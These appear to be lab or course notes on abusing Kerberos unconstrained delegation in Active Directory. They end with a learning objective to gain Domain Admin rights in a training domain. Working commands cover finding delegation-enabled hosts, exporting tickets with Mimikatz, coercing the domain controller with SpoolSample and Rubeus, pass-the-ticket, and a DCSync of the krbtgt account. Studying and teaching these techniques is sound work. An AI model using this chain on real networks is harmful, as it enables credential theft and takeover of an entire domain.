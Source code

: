 # Kerberos Delegation

• Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server". 

• This is typically useful in multi-tier service or applications where Kerberos Double Hop is required. 

• For example, users authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account. 

• Please note that, for the above example, the service account for web service must be trusted for delegation to be able to make requests as a user.

![[Pasted image 20230106211117.png]]

1. A user provides credentials to the Domain Controller. 
2. The DC returns a TGT. 
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS.
5. The user sends the TGT and TGS to the web server. 
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

• There are two types of Kerberos Delegation: 

– General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.
– Constrained Delegation which allows the first hop server (web server in our example) to request access only to specified services on specified computers. If the user is not using Kerberos authentication to authenticate to the first hop server, Windows offers Protocol Transition to transition the request to Kerberos. 

• Please note that in both types of delegations, a mechanism is required to impersonate the incoming user and authenticate to the second hop server (Database server in our example) as the user.

• When set for a particular service account, unconstrained delegation allows delegation to any service to any resource on the domain as a user. 

• When unconstrained delegation is enabled, the DC places user's TGT inside TGS (Step 4 in the previous diagram). When presented to the server with unconstrained delegation, the TGT is extracted from TGS and stored in LSASS. This way the server can reuse the user's TGT to access any other resource as the user. 

• This could be used to escalate privileges in case we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine.

#### Discover domain computers which have unconstrained delegation enabled using PowerView:
```powershell
Get-NetComputer -UnConstrained

# AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True} 
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

#### Run following command on it to check if any DA token is available: 
```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets"'
```

#### We must trick or wait for a domain admin to connect a service on appsrv. Now, if the command is run again: 
```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"' 
```

#### The DA token could be reused: 
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgtDOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

### Coerce Authentication to Computer of Choice

#### We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:
(https://github.com/GhostPack/Rubeus) 
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap 
```

#### And after that run MS-RPRN.exe on the student VM:
(https://github.com/leechristensen/SpoolSample)  
```powershell
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

#### Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM: 
```powershell
.\Rubeus.exe ptt /ticket:
```

#### Once the ticket is injected, run DCSync: 
```powershell 
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Learning Objective 17

• Find a server in dcorp domain where Unconstrained Delegation is enabled. 

•Access that server, wait for a Domain Admin to connect to that server and get Domain Admin privileges.


